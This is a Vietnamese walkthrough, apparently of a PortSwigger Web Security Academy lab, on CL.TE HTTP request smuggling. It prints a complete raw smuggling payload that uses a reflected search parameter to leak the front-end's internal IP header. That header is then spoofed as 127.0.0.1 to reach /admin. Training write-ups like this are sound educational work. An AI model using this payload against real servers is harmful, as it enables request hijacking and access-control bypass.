 >Khẳng định được nó thuộc dạng `CL.TE`!

>Tiếp theo, trang web có chức năng tìm kiếm post, nó sẽ reflect hiển thị lại những gì mình điền vào bằng tham số `search`:
>![image](https://hackmd.io/_uploads/B1guNnQuC.png)
![image](https://hackmd.io/_uploads/HkKuN2Q_A.png)

>Vì response của POST search request này reflect chuỗi search =>Ta có thể tấn công HTTP Request Smuggling bằng POST với `search=` => phần request thừa sẽ được nối vào request sau => Trang web sẽ reflect `search` =>Ta xem được headers của request sau!

>Payload:
```
POST / HTTP/1.1
Host: 0a44003f049511988075ad0d00dd0074.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 500

search=


```

>Sau khi send request lần 2, ta sẽ xem được các header được reflect sau khi đã được front-end server xử lí:
>![image](https://hackmd.io/_uploads/rksx8nQd0.png)

>Ta lấy được header custom cho địa chỉ IP của user là `X-ixBfHN-Ip`. Thêm header này và truy cập vào `/admin` thì thông báo phải có IP `127.0.0.1` mới được truy cập:
>![image](https://hackmd.io/_uploads/SkNiLn7_A.png)

>Đổi IP thành `127.0.0.1`, ta thành công truy cập vào được trang `/admin`:
>![image](https://hackmd.io/_uploads/SJV0IhXOR.png)
